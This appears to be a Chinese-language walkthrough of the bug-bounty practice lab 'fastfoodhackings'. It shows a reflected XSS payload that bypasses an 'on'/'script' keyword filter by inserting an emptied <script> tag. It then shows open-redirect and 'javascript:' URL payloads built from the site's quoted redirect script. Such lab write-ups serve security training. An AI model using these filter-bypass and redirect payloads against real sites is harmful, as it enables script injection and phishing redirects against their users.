 该靶场有好几个xss，还有越权
目前找到一个xss
# xss1
主页点击login并且填入账号密码，burp抓到包?act=login
发现login是反射点
尝试?act=xxx
![[Pasted image 20240910091543.png]]
尝试`<img src=1 onerror=alert() >`
发现on+字符会置空，还有script标签也会置空
经过一小时尝试
payload：
```
https://www.bugbountytraining.com/fastfoodhackings/index.php?act=xxx--%3E%3Cimg%20src=1%20o%3Cscript%3Ener%3Cscript%3Eror=alert()%3E\\
```
在on之间插入置空的<script>

# 页面跳转
阅读页面源代码，直接筛选.js关键字，发现主页最下面的一个js文件，以下是他的代码
```
	const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);

window.addEventListener('load', function() {
const redirectUrl = urlParams.get('from');
const redirectType = urlParams.get('type');
if (redirectUrl === null) { 
    // No redirect.
} else {
	if (redirectType == '1') {
		window.location.href=getHashValue("redir");
	} else {
    document.getElementById("returnurl").style.display="block";
    document.getElementById("redirectUrl").href=redirectUrl;
    document.cookie = "from="+redirectUrl+"; expires=Thu, 20 Dec 2021 12:00:00 UTC";
}
}
});

/* new code, added by snowyslittlehelper on 14/12/2020 */

function getHashValue(key) 
{
    var matches = location.hash.match(new RegExp(key+'=([^&]*)'));
    return matches ? matches[1] : null;
}
```
于是我们构造payload：
```
https://www.bugbountytraining.com/fastfoodhackings/index.php?from=1&type=1#redir=https://baidu.com
```
以及
```
https://www.bugbountytraining.com/fastfoodhackings/index.php?from=1&type=1#redir=javascript:alert()
```